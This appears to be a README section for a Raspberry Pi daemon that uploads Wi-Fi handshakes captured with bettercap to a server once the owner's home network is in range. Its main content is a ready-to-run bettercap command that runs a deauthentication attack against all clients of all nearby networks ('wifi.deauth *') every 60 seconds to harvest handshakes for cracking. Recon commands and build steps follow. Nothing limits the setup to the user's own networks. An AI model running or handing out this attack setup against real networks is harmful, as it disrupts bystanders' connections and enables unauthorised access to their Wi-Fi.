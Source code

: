 The idea of the raspberry-pi part is simple, it is designed for sending captures performed by `bettercap` to the server.
Ideally, you can run the bettercap+deamon on the Raspberry Pi, and it will send the handshakes to the server when your
local-home SSID of your WIFI has been recognized nearby.

> [!NOTE]  
> This feature is disabled if the `TEST` env variable is `False`, but you must make sure that you have, for example, 2 interfaces and one of them is always connected to a network

> Tested on Raspberry-Pi 5 Model B Rev. 2

> [!TIP]
> Change `wlan1` interface with your interface accordingly. Make sure your Wi-Fi card supports monitor mode and packet injection first.

## Run Bettercap

This is an all-in-one.

```bash
sudo bettercap -iface wlan1 -eval 'set wifi.handshakes.aggregate false; set wifi.handshakes.file ~/handshakes; wifi.recon on; set wifi.show.sort clients desc; set ticker.commands "wifi.deauth *; clear; wifi.show"; set ticker.period 60; ticker on';
```

> [!WARNING]  
> Deamon uses as base directory the `HOME` user directory, since bettercap needs sudo you must run deamon as well as root.

### Other useful bettercap commands

```bash
sudo bettercap -iface wlan1
wifi.recon BBSID
wifi.recon on
wifi.recon.channel N; # N is the channel to recon 
```

# Compile and run

> [!IMPORTANT]  
> Deamon needs `libpcap0.8-dev` to be installed

> [!IMPORTANT]  
> `/etc/machine-id` must exist on the machine

```bash
cd raspberry-pi
go mod verify
go mod tidy
go build main.go
sudo ./main
```